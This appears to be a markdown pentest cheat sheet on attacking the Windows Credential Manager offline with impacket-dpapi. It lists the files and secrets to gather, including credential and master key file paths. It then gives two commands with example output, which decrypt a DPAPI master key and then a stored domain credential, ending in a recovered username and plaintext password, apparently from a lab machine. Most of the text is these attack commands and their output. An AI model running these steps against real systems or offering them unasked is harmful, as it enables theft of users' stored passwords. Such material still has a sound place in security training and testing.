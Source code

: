 # DPAPI Exploitation

## Attacking Credential Manager Offline using impacket-dpapi

* We need to grab 4 things
  - The user SID
  - The Credential File(s) (Stored in %USERPROFILE%\AppData\Roaming\Microsoft\Credentials)
  - The Master Key File (Stored at %USERPROFILE%\AppData\Roaming\Microsoft\Protect\<SID>\<MasterKey>
  - The Users Password


1. First we need to extract the key

    ```bash
    impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password  NightT1meP1dg3on14
    ```
    ```bash
    # Example
    impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password  NightT1meP1dg3on14
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [MASTERKEYFILE]
    Version     :        2 (2)
    Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
    Flags       :        0 (0)
    Policy      :        0 (0)
    MasterKeyLen: 00000088 (136)
    BackupKeyLen: 00000068 (104)
    CredHistLen : 00000000 (0)
    DomainKeyLen: 00000174 (372)

    Decrypted key with User Key (MD4 protected)
    Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
    ```
2. That will give us the key to decrypt the credential vault

    ```bash
    impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
    ```
    ```bash
    # Example
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

    [CREDENTIAL]
    LastWritten : 2025-01-29 12:55:19+00:00
    Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
    Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
    Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
    Target      : Domain:target=Jezzas_Account
    Description : 
    Unknown     : 
    Username    : jeremy.combs
    Unknown     : qT3V9pLXyN7W4m
    ```
